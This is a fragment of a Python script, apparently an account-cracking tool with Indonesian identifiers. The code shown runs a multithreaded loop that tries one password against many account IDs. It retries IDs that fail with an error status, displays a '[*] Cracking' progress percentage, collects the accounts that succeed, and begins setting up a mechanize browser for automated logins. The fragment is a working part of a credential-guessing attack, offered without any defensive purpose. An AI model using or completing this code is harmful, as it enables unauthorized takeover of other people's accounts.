 		except KeyboardInterrupt:exit()

	h_error = []

	error = 0

	while 1:

		try:

			for i in th:

				status,id = i.update()

				if status != 0:

					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)

					sys.stdout.flush()

					del(th[th.index(i)])

					if status == 4:

						h_error.append(id)

						if h_error.count(id) == 3:

							pass

						else:

							th.append(mt(id,sandi))

							th[len(th)-1].daemon = True

							th[len(th)-1].start()

					else:

						jml0 += 1

						akun.append((status,id))

		except KeyboardInterrupt:

			sys.exit()

		try:

			if threading.activeCount() == 1:break

		except KeyboardInterrupt:

			keluar()

	cetak('\r!h[*] Cracking  !k100!m%      ')

	tampilhasil(akun,sandi,data)

def install_browser():

	global br

	br = mechanize.Browser()
